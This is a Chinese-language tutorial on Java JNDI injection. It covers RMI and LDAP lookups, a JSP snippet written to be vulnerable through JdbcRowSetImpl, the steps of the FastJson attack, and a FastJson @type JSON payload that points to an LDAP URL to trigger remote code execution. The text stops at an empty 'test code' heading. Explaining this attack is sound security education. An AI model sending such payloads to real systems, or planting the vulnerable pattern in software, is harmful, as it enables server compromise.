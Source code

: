 ### JNDI注入漏洞利用

2016年BlackHat大会上[us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)提到了包括`RMI`、`LDAP`、`CORBA`的`JNDI`注入方式攻击方式被广泛的利用于近年来的各种`JNDI`注入漏洞。

触发`JNDI`注入漏洞的方式也是非常的简单，只需要直接或间接的调用`JNDI`服务，且`lookup`的参数值可控、`JDK`版本、服务器网络环境满足漏洞利用条件就可以成功的利用该漏洞了。

**示例代码：**

```java
Context ctx = new InitialContext();

// 获取RMI绑定的恶意ReferenceWrapper对象
Object obj = ctx.lookup("注入JNDI服务URL");
```
我们只需间接的找到调用了`JNDI`的`lookup`方法的类且`lookup` 的`URL`可被我们恶意控制的后端接口或者服务即可利用。

#### FastJson 反序列化JNDI注入示例

比较典型的漏洞有`FastJson`的`JNDI`注入漏洞，`FastJson`在反序列化`JSON`对象时候会通过反射自动创建类实例且`FastJson`会根据传入的`JSON`字段间接的调用类成员变量的`setXXX`方法。`FastJson`这个反序列化功能看似无法实现`RCE`，但是有人找出多个符合`JNDI`注入漏洞利用条件的`Java`类(如：`com.sun.rowset.JdbcRowSetImpl`)从而实现了`RCE`。

**JdbcRowSetImpl示例：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="com.sun.rowset.JdbcRowSetImpl" %>
<%
    JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
    jdbcRowSet.setDataSourceName(request.getParameter("url"));
    jdbcRowSet.setAutoCommit(true);
%>
```

假设我们能够动态的创建出`JdbcRowSetImpl`类实例且可以间接的调用`setDataSourceName`和`setAutoCommit`方法，那么就有可能实现`JNDI`注入攻击。`FastJson`使用`JdbcRowSetImpl`实现`JNDI`注入攻击的大致的流程如下：

1. 反射创建`com.sun.rowset.JdbcRowSetImpl`对象。
2. 反射调用`setDataSourceName`方法，设置`JNDI`的`URL`。
3. 反射调用`setAutoCommit`方法，该方法会试图使用`JNDI`获取数据源(`DataSource`)对象。
4. 调用`lookup`方法去查找我们注入的`URL`所绑定的恶意的`JNDI`远程引用对象。
5. 执行恶意的类对象工厂方法实现RCE。

**FastJson JdbcRowSetImpl Payload：**

```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl", 
    "dataSourceName": "ldap://127.0.0.1:3890/test", 
    "autoCommit": "true"
}
```

**FastJson JNDI测试代码：**

